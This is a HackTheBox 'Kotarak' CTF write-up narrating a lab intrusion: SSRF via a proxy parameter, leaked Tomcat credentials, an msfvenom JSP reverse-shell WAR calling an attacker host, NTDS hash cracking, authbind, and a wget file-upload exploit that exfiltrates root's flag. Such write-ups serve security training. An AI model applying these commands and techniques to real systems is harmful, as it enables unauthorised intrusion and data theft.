 ```yaml
---
layout: post
title:  "HackTheBox - Kotarak"
date:   2018-03-09 23:51:00 -0800
categories: Pentesting CTF
---
```

This machine was a surprise for me, in terms that it was not completely isolated and was having other machine communicating with it. In reality, the author seems to have simulated this external network interaction by using Linux Containers on the same machine, but the end result was great!

## Web Enumeration

I initiated my reconnaissance by scanning the machine with NMAP and default ports. Got back the TCP ports 22, 8009 and 8080. Running the scan again, now with the service version check (-sV), told me that I was dealing with an SSH server, a Tomcat and a Apache JServ, which was part of the Tomcat service. Going to <code>http://10.10.10.55:8080</code> showed a HTTP 404 error page. As this was a Tomcat website, I then went to /manager/html, which is the common admin section, but I got a HTTP basic authentication prompt. I was unable to brute force it using tools like Hydra, so I went on for more enumeration.

Further scanning on all possible ports, revealed that TCP 60000 was open too. This sounded interesting, so then I ran NMAP again to check the service and saw it was an Apache web server. Going to <code>http://10.10.10.55:60000</code>, showed a website called Kotarak Web Hosting Private Browser. This website had a form with a text box and a submit button. This sounded like some sort of proxy because when I submitted the form, with <code>http://127.0.0.1:8080</code> value in the text box, I got the same Tomcat error page from <code>http://10.10.10.55:8080</code>. The full request was <code>http://10.10.10.55:60000/url.php?path=http://127.0.0.1:8080</code>. At that point, I was certain this was a proxy to internal resources on the same machine.

I decided to do more enumeration on the machine to see if I could find some information to use in the proxy. I ran a <code>dirb http://10.10.10.55:60000 /usr/share/wordlists/dirb/common.txt</code> and got a forbidden (403) response for the request <code>http://10.10.10.55/server-status</code>. I then used the proxy to bypass the forbidden response:

<code>http://10.10.10.55:60000/url.php?path=http://127.0.0.1:60000/server-status</code>

I got a Apache server status page with some information about HTTP requests received by this Apache proxy server. Some of these requests were to 127.0.0.1:888, so a new TCP port to explore. After opening <code>http://10.10.10.55:60000/url.php?path=http://127.0.0.1:888</code> in the browser, I get a webpage with title Simple File Viewer and a list of a few files. The list contained a file called backup, which is always interesting. The file was having a link to <code>http://10.10.10.55:60000/url.php?doc=backup</code>. The problem was that going to that URL, returned an empty page. I then thought using the proxy. Going to <code>http://10.10.10.55:60000/url.php?path=http://127.0.0.1:888/?doc=backup</code>, returned a XML page with old Tomcat credentials (I had to view the page source):

{% highlight XML %}
<user username="admin" password="3@g01PdhB!" roles="manager,manager-gui,admin-gui,manager-script"/>
{% endhighlight %}

## Getting a shell

With these credentials, I was able to login into the Tomcat's admin dashboard in <code>http://10.10.10.55:8080/manager/html</code>. I then generated a WAR package through MSFVenom:

{% highlight bash %}
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<MY_ATTACK_BOX_IP> LPORT=443 -f war > warsh.war
{% endhighlight %}

Deployed the package and set a netcat listening on port 443 on my attacker box. After requesting the URL <code>http://10.10.10.55:8080/warsh</code>, I got a shell on the system, under the user tomcat. Here's a few steps that I used that allowed me to get a fully capable shell, that was able to support tab completion and such:

{% highlight bash %}
python -c 'import pty;pty.spawn("/bin/bash")'
Control-Z (this puts the shell into background)
stty raw -echo (on your attacker box)
fg (not visible)
reset
{% endhighlight %}


## System Enumeration

The user tomcat didn't have much privileges so at that point I started my enumeration to find ways to escalate privileges. I found out the /root directory was readable, so I could list its contents:

{% highlight bash %}
tomcat@kotarak-dmz:/root$ ls -l
total 12
-rw------- 1 atanas root    333 Jul 20  2017 app.log
-rw------- 1 atanas root     66 Aug 29  2017 flag.txt
{% endhighlight %}

I could see an interesting file named app.log, but it was only readable by the user atanas. After some more enumeration, I found two interesting files in the folder /home/tomcat/to_archive/pentest_data:

{% highlight bash %}
tomcat@kotarak-dmz:/home/tomcat/to_archive/pentest_data$ ls -l
total 28304
-rw-r--r-- 1 tomcat tomcat 16793600 Jul 21  2017 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
-rw-r--r-- 1 tomcat tomcat 12189696 Jul 21  2017 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
{% endhighlight %}

These files are related to Active Directory. The .dit file, besides containing AD data, it contains the password hashes for all users in the domain. It is encrypted by a password, which is stored in the registry SYSTEM hive. Quickly I assumed the .bin file was the SYSTEM registry hive.


## Password Cracking / Privilege Escalation I / More System Enumeration

Using [this][ntdis] reference, I used the tool easbxtract.py to extract the password hashes in a format compatible with John the Ripper. I then ran the password cracker and found the password for user atanas:

{% highlight bash %}
$ john --show hashes.pwdump --format=NT
Administrator:f16tomcat!
atanas:Password123!
{% endhighlight %}

I used su to try the password and strangely the one it worked for the user atanas was the one from the Administrator: <code>f16tomcat!</code>. Now I was able to read the app.log file:

{% highlight bash %}
atanas@kotarak-dmz:/root$ cat app.log
10.0.3.133 - - [20/Jul/2017:22:48:01 -0400] "GET /archive.tar.gz HTTP/1.1" 404 503 "-" "Wget/1.16 (linux-gnu)"
10.0.3.133 - - [20/Jul/2017:22:50:01 -0400] "GET /archive.tar.gz HTTP/1.1" 404 503 "-" "Wget/1.16 (linux-gnu)"
10.0.3.133 - - [20/Jul/2017:22:52:01 -0400] "GET /archive.tar.gz HTTP/1.1" 404 503 "-" "Wget/1.16 (linux-gnu)"
{% endhighlight %}

After looking at this information, I suspected there was some privilege escalation through wget. I checked exploit-db.com and found an [Arbitrary File Upload/Remote Code Execution exploit][wget_exploit] affecting versions below 1.18. Since the requests used version 1.16, this seemed a good thing to try.

I noticed the machine was having a network interface with the IP 10.0.3.1, so on the same subnet as the source IP of 10.0.3.133, from the app.log file. For the exploit to work, it needs to listen on the TCP port 80 and 21. This was problematic because the user atanas didn't have permissions to open those privileged ports. At this point I was stuck and went for further enumeration. I spent a few days, finding other things that had no relation at all and showed to not be useful for the privilege escalation that I was trying to achieve. At that point I went to HackTheBox Slack channel, looking for some hints from people. So, I knew the exploit, I knew it was triggered by a request from an external machine. I was just hoping the request was coming from the root user, so the privilege escalation would be successful. At that point I got a hint from someone in the Slack channel, that advise me to look deeper into the /etc folder, that way I would find something that would help me to open privileged ports with an unprivileged user. With that information, I went on to /etc and found the authbind/ folder. This was certainly not a common folder in /etc, so I went ahead and listed its contents:

{% highlight bash %}
atanas@kotarak-dmz:/etc$ ls -l authbind/*
authbind/byaddr:
total 0

authbind/byport:
total 0
-rwxr-xr-x 1 root atanas 0 Aug 29  2017 21
-rwxr-xr-x 1 root atanas 0 Aug 29  2017 80

authbind/byuid:
total 0
{% endhighlight %}

Ok, so I could see the folder authbind/byport/ contained the empty files 80 and 21. These were exactly the ports I needed to open as an unprivileged user. I assumed this authbind thing would help me to open those ports and I was correct. Only the atanas user was able to execute the authbind binary:

{% highlight bash %}
atanas@kotarak-dmz:~$ which authbind
/usr/bin/authbind
atanas@kotarak-dmz:~$ ls -l /usr/bin/authbind
-rwx------ 1 atanas atanas 10464 Jul 26  2015 /usr/bin/authbind
{% endhighlight %}

I went ahead and tried to open a netcat listener on port 80 and I was successful:

{% highlight bash %}
atanas@kotarak-dmz:~$ authbind nc -nvlp 80
Listening on [0.0.0.0] (family 0, port 80)
{% endhighlight %}

## Privilege Escalation II / Own System

Now I was able to run the wget exploit. I changed the exploit code to listen on the IP 10.0.3.1 and connect to FTP server with same IP. This way, the exploit would only receive the intended request and not all the enumeration made by other HackTheBox users. I used scp to copy the exploit python file from my attacker box to the target machine. I also created a .wgetrc file with the content <code>post_file = /root/root.txt</code>. I then launched, in the target machine, a <code>python -m pyftpdlib -i 10.0.3.1 -p21 -w &</code>. This was the FTP server the exploit redirected the request to download the .wgetrc. The exploit listened on port TCP 80, waited for the HTTP request from 10.0.3.133 to the /archive.tar.gz, it redirected the client to a FTP download of the .wgetrc with the post_file content. As the HTTP request was running periodically, it triggered again and used the newly .wgetrc, which was downloaded and copied into the folder of the user from the machine 10.0.3.133 (supposedly root). The request submitted a POST request with the contents of the /root/root.txt file, which contained the final hash flag.

[wget_exploit]: https://www.exploit-db.com/exploits/40064/
[ntdis]: https://www.gracefulsecurity.com/extracting-password-hashes-from-a-domain-controller/
